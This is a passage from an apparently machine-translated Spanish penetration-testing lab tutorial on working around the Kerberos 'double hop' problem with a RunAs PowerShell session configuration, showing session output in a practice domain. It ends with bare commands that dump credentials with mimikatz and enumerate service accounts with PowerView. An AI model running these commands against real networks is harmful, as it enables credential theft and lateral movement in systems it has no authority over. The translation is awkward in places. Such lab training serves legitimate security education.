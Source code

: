 Un truco que podemos usar aquí es registrar una nueva configuración de sesión utilizando el[Registro-PssessionConfiguration](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.core/register-pssessionconfiguration?view=powershell-7.2)cmdlet.

  Problema de "doble salto" de Kerberos

```powershell-session
PS C:\htb> Register-PSSessionConfiguration -Name backupadmsess -RunAsCredential inlanefreight\backupadm

 WARNING: When RunAs is enabled in a Windows PowerShell session configuration, the Windows security model cannot enforce
 a security boundary between different user sessions that are created by using this endpoint. Verify that the Windows
PowerShell runspace configuration is restricted to only the necessary set of cmdlets and capabilities.
WARNING: Register-PSSessionConfiguration may need to restart the WinRM service if a configuration using this name has
recently been unregistered, certain system data structures may still be cached. In that case, a restart of WinRM may be
 required.
All WinRM sessions connected to Windows PowerShell session configurations, such as Microsoft.PowerShell and session
configurations that are created with the Register-PSSessionConfiguration cmdlet, are disconnected.

   WSManConfig: Microsoft.WSMan.Management\WSMan::localhost\Plugin

Type            Keys                                Name
----            ----                                ----
Container       {Name=backupadmsess}                backupadmsess
```

Una vez hecho esto, necesitamos reiniciar el servicio WinRM escribiendo`Restart-Service WinRM`En nuestra actualidad actual. Esto nos echará, por lo que comenzaremos una nueva pssession utilizando la sesión registrada nombrada que configuramos anteriormente.

Después de comenzar la sesión, podemos ver que el problema de doble salto ha sido eliminado, y si escribimos`klist`Tendremos los boletos en caché necesarios para llegar al controlador de dominio. Esto funciona porque nuestra máquina local ahora se enviará a la máquina remota en el contexto del`backupadm`El usuario y todas las solicitudes de nuestra máquina local se enviarán directamente al controlador de dominio.

  Problema de "doble salto" de Kerberos

```powershell-session
PS C:\htb> Enter-PSSession -ComputerName DEV01 -Credential INLANEFREIGHT\backupadm -ConfigurationName  backupadmsess
[DEV01]: PS C:\Users\backupadm\Documents> klist

Current LogonId is 0:0x2239ba

Cached Tickets: (1)

#0>     Client: backupadm @ INLANEFREIGHT.LOCAL
       Server: krbtgt/INLANEFREIGHT.LOCAL @ INLANEFREIGHT.LOCAL
       KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
       Ticket Flags 0x40e10000 -> forwardable renewable initial pre_authent name_canonicalize
       Start Time: 6/28/2022 13:24:37 (local)
       End Time:   6/28/2022 23:24:37 (local)
       Renew Time: 7/5/2022 13:24:37 (local)
       Session Key Type: AES-256-CTS-HMAC-SHA1-96
       Cache Flags: 0x1 -> PRIMARY
       Kdc Called: DC01
```


[DEV01]: PS C:\Users\backupadm\Documents> cd 'C:\Users\Public\'
[DEV01]: PS C:\Users\Public> .\mimikatz "privilege::debug" "sekurlsa::logonpasswords" exit
[DEV01]: PS C:\Users\Public> tasklist /V |findstr backupadm
[ACADEMY-AEN-DEV01.INLANEFREIGHT.LOCAL]: PS C:\Users\backupadm\Documents> klist
[ACADEMY-AEN-DEV01.INLANEFREIGHT.LOCAL]: PS C:\Users\backupadm\Documents> Import-Module .\PowerView.ps1
[ACADEMY-AEN-DEV01.INLANEFREIGHT.LOCAL]: PS C:\Users\backupadm\Documents> get-domainuser -spn | select samaccountname
[DEV01]: PS C:\Users\Public> get-domainuser -spn | select samaccountname